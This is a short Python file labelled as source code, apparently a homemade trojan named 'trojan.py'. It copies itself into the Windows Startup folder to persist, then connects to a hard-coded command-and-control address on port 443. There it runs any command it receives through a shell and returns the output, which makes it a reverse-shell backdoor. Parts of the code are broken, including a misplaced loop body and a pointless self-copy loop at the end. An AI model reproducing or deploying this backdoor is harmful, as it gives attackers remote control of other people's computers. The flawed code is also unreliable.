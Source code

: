 import socket
import subprocess
import threading
import time 
import os 
import shutil

CCIP = "192.168.0.113"
CCPORT = 443

def autorun():
    filen = os.path.basename(__file__)
    exe_file = filen.replace(".py",".exe")
    #print(exe_file)
    os.system("copy {} \"%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programas\\Startup\"".format(exe_file))

def conn(CCIP, CCPORT):
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((CCIP, CCPORT))
        return client
    except Exception as error:
        print(error)

def cmd(client, data):
    try:
        proc = subprocess.Popen(data, shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        output = proc.stdout.read() + proc.stderr.read()
        client.send(output + b"\n")
    except Exception as error:
        print(error)

def cli(client):
    try:
        while True:
            data = client.recv(1024).decode().strip()
        if data == "/:kill":
            return
        else:
            threading.Thread(target=cmd, args=(client, data)).start()
    except Exception as error:
        client.close()

if __name__ == "__main__":
    autorun()
    while True:
        client = conn(CCIP, CCPORT)
        if client:
            cli(client)
        else:
            time.sleep(3) 

arquivo = 'trojan.py'
num_copias = 10
for i in range(num_copias):
    novo_arquivo = 'trojan.py'
    f'trojan.py'
    shutil.copy('trojan.py', novo_arquivo)
